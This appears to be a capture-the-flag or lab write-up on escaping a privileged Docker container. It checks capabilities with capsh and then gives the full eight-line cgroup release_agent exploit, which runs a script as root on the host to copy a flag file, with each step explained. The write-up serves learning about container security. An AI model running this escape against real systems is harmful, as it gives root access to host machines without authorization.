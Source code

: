 If a container is running with privileged access to the operating system, we can effectively execute commands as root.  
We can use a system package such as "libcap2-bin"'s `capsh` to list the capabilities our container has: `capsh --print`.

### Example

- `capsh --print | grep sys_admin`

![capsh](../.res/2023-07-23-15-36-29.png)  

- [Capabilitires](https://linux.die.net/man/7/capabilities)

```bash
1. mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x  
2. echo 1 > /tmp/cgrp/x/notify_on_release
3. host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
4. echo "$host_path/exploit" > /tmp/cgrp/release_agent
5. echo '#!/bin/sh' > /exploit
6. echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
7. chmod a+x /exploit
8. sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

Summary of the exploit:

1. We need to create a group to use the Linux kernel to write and execute our exploit. The kernel uses "cgroups" to manage processes on the operating system since we have capabilities to manage "cgroups" as root on the host, we'll mount this to "/tmp/cgrp" on the container.
2. For our exploit to execute, we'll need to tell Kernel to run our code. By adding "1" to "/tmp/cgrp/x/notify_on_release", we're telling the kernel to execute something once the "cgroup" finishes. [(Paul Menage., 2004)](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)
3. We find out where the containers files are stored on the host and store it as a variable
4. Where we then echo the location of the containers files into our "/exploit" and then ultimately to the "release_agent" which is what will be executed by the "cgroup" once it is released.
5. Let's turn our exploit into a shell on the host
6. Execute a command to echo the host flag into a file named "flag.txt" in the container, once "/exploit" is executed
7. Make our exploit executable!
8. We create a process and store that into "/tmp/cgrp/x/cgroup.procs"

![Escape container](../.res/2023-07-23-15-55-55.png)
